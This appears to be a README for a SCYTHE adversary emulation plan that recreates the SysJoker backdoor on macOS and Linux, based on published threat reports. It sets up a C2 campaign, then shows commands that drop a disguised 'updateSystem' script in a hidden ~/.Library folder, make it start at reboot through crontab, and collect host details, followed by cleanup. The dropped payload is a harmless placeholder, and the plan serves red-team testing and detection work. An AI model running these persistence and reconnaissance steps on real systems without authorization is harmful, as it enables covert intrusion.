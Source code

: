 # SysJoker - Adversary Emulation Plan

This threat is based on several different threat reports:
- For macOS the [ObjectiveSee](https://www.objective-see.com/blog/blog_0x6C.html) threat report released on January 11,2022. 
- For Linux the [Intezer](https://www.intezer.com/blog/malware-analysis/new-backdoor-sysjoker/) threat report released January 11, 2022. 

## Automated Adversary Emulation with SCYTHE
1. Download and import the threats in JSON format to your SCYTHE instace
2. Create a new campaign 'SysJoker' with HTTPS and the communication options. You can import the config.json or manually add `--cp yourdomain.com:443 --secure true --multipart 10240 --heartbeat 10 --jitter 16`
3. Import Existing Threat: 'SysJoker'
4. Start Campaign
5. Download Campaign Client
6. In ~/Downloads run chmod +x *.out 
7. ./*.out

## Manual Adversary Emulation
From a SCYTHE shell:
```
loader --load run
run mkdir -p ~/.Library/SystemServices
loader --load downloader
downloader --src '#!/bin/bash\n echo "SysJoker Beacon Malware would have run here" > ~/.Library/log.txt; ' --dest /tmp/scythe-sysjoker
loader --unload downloader
run cp -rf /tmp/scythe-sysjoker ~/.Library/SystemServices/updateSystem
run chmod +x ~/.Library/SystemServices/updateSystem
# add persistence
run crontab -l 2>/dev/null; echo "@reboot ~/.Library/SystemServices/updateSystem" | crontab -
run nohup ~/.Library/SystemServices/updateSystem >/dev/null 2>&1 &
run ifconfig | grep -v 127.0.0.1 | grep -E "inet ([0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3})" | awk '{print $2}'
run ip address | awk '/ether/{print $2}'
run id -u
run uname -mrs
# Cleanup
run rm -rf ~/.Library/SystemServices/updateSystem
run rm -rf ~/.Library/log.txt
run rmdir ~/.Library/SystemServices
run rmdir ~/.Library/
run crontab -l 2>/dev/null | grep -v "@reboot ~/.Library/SystemServices/updateSystem" | crontab -
loader --unload run
controller --shutdown
```